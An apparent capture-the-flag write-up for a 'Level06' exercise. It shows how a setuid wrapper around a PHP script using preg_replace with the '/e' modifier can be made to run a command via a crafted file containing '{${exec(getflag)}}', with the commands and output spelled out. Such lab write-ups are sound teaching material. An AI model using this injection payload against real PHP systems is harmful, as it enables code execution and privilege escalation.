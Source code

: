 # Level06

## Exploring the computer

```bash 
$ ls -la
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
```

We have an executable and a .php file.

## Inspecting the files

Since we can execute the level06 let's try it.

```bash 
$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```

We see that he expects an argument. Let's try :

```bash 
$ ./level06 coucou
PHP Warning:  file_get_contents(coucou): failed to open stream: No such file or directory in /home/user/level06/level06.php on line 4
```

Okay so it waits for a file.
Let's look at the .php file itself.

```bash 
$ cat level06.php 
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

This script reads a file, processes its content through string manipulations, and outputs the modified result.

The  '/e' option in the preg_replace function, allows content to be evalauted as code, allowing us to execute comnmands.

Same as the previous exercice we are going to inject 'getflag' in script. Only the syntax will change but the principle stays the same.

## Getting the flag

```bash 
$ echo '[x {${exec(getflag)}}]' > /tmp/coucou 
$ ./level06 /tmp/coucou

PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : ********** in /home/user/level06/level06.php(4) : regexp code on line 1
````


